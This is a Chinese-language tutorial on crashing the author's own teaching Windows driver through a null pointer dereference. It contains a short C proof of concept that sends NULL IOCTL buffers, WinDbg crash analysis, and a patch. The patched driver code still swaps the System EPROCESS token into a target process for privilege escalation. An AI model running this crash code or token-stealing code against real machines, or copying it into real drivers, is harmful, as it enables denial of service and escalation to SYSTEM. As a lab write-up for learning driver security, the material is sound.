 # 【第 08 話】攻擊自己寫的驅動程式－Null Pointer Dereference

## 文章大綱
我們在[【第 07 話】逆向分析 WDM 驅動程式](/asset/第%2007%20話)練習使用 IDA 和 WinDbg 靜態和動態分析驅動程式。這篇我們要攻擊之前寫的 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)，讓驅動程式 Null Pointer Dereference 造成系統崩潰。


## 漏洞成因
AbuseEprocessTokenDrv.sys 總共有兩個漏洞。第一個很明顯的是提權功能，雖然被我們稱作是「功能」，但實際上是可以被攻擊者濫用的「漏洞」，畢竟任何攻擊者都可以編譯一個 [AbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessToken.exe) 將自己從一般使用者權限提升成 system。

另一個漏洞的問題則是出在程式中，在[【第 06 話】IOCTL 與驅動程式溝通－實作竄改 EPROCESS TOKEN](/asset/第%2006%20話) 的程式中 `ProcessId = *pIrp_a2->AssociatedIrp.MasterIrp;` 我們取得應用程式傳來的 SystemBuffer。看似理所當然的一行，有個開發者應該注意的事情，就是 SystemBuffer 有可能是 NULL。

![](Dispatcher.png)

程式沒有檢查 SystemBuffer 是否為 NULL 就嘗試存取這個指標，導致 Null Pointer Dereference，造成系統崩潰。


## 寫程式
觸發漏洞的攻擊腳本很簡單，就是在呼叫 `DeviceIoControl` 時傳入 NULL。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/ExploitAbuseEprocessToken)。

```c
int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        std::cout << "CreateFile error: " << GetLastError() << std::endl;
        return 1;
    }

    DWORD dwWrite;

    // 輸入、輸出都是 NULL、長度為 0，觸發 AbuseEprocessTokenDrv 的 Null Pointer Dereference
    DeviceIoControl(hDevice, ABUSE_EPROCESS_TOKEN, NULL, 0, NULL, 0, &dwWrite, NULL);

    CloseHandle(hDevice);

    return 0;
}
```

## 測試
開啟 VM，記得要在本機開啟 vmmon64.exe，並在 boot options 按 F8 選擇 `Disable Driver Signature Enforcement`。

1. 載入 [AbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/AbuseEprocessToken/bin/AbuseEprocessTokenDrv.sys)
2. 執行 [ExploitAbuseEprocessToken.exe](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitAbuseEprocessToken/bin/ExploitAbuseEprocessToken.exe)
3. 這時 WinDbg 應該會接到這個 Exception，輸入指令 `!analyze -v`，會顯示當前的系統狀態和出問題的 Instruction，如下所示。因為 `rax` 是 0 然後又嘗試存取它而導致 Null Pointer Dereference。

```
mov     rbp,qword ptr [rax]
```

輸入 `g` 繼續執行，就可以得到經典的 BSOD（Blue Screen of Death）如下圖。

![](BSOD.png)


## 修補方式
修補 Null Pointer Dereference 漏洞後的驅動程式也放在專案中，可以用 [FixAbuseEprocessTokenDrv.sys](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitAbuseEprocessToken/bin/FixAbuseEprocessTokenDrv.sys) 測試。

針對漏洞的修補的方式有很多，這裡檢查輸入長度是否為 4，不是的話就填預設值 4。

```c
// 檢查輸入長度是否為 4，不是的話就預設為 4
HANDLE processId;
if (inputBufferLength == 4)
{
    processId = *(HANDLE *)pIrp->AssociatedIrp.SystemBuffer;
}
else
{
    processId = (HANDLE)4;
}
```

另外一個需要注意的是原本的程式並沒有檢查 [PsLookupProcessByProcessId](https://learn.microsoft.com/zh-tw/windows-hardware/drivers/ddi/ntifs/nf-ntifs-pslookupprocessbyprocessid) 的回傳值，這其實是不好的習慣，容易造成程式不穩定。這裡順便修改原本的程式，為呼叫的 API 加上檢查。

```c
case ABUSE_EPROCESS_TOKEN:
{
    DWORD64 systemToken;

    // 檢查 PsLookupProcessByProcessId 的 status 確保有取得 System 的 EPROCESS 位址
    NTSTATUS status = PsLookupProcessByProcessId((HANDLE)4, &pEprocess);
    if (status == STATUS_SUCCESS)
    {
        // 取得 System (pid 4) 的 EPROCESS Token
        systemToken = *(DWORD64 *)((DWORD64)pEprocess + 0x358);
    }
    else
    {
        break;
    }

    // 檢查 PsLookupProcessByProcessId 的 status 確保有取得目標 Process 的 EPROCESS 位址
    status = PsLookupProcessByProcessId(processId, &pEprocess);
    if (status == STATUS_SUCCESS)
    {
        // 把從應用程式傳來的 pid 的 EPROCESS Token 竄改成 System 的 EPROCESS Token
        *(DWORD64 *)((DWORD64)pEprocess + 0x358) = systemToken;
    }
    else
    {
        break;
    }
    break;
}
```

修補後重新編譯，再執行一次攻擊腳本就不會造成系統崩潰了。


## 參考資料
- [Finding Bugs in Windows Drivers, Part 1 – WDM](https://www.cyberark.com/resources/threat-research-blog/finding-bugs-in-windows-drivers-part-1-wdm)